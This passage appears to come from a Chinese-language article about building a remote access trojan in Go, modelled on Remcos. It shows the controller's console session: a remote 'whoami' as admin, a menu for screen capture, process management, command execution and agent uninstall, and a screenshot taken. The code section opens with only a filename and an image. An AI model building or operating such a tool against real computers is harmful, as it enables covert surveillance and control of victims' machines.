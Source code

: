 ```plain

C:\>whoami
win-5nxxxxxxx7b\admin

C:\>exit
请输入指令：
help
        screen_capture:截屏
        process_manager：进程管理
        command_line：执行命令行
        close：关闭 Agent 进程
        uninstall：卸载 Agent
        exit：退出 Client
请输入指令：
screen_capture
请输入指令：
screen_capture output:截屏保存于 01.png 文件中

请输入指令：
exit

F:\GolandProjects\Client_Remcos>
```

### 代码实现

代码结构如下：

[![](assets/1703640255-e2f61ef184eefe66db4533bc9abd8920.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226181036-036ccece-a3d7-1.png)

-   main.go
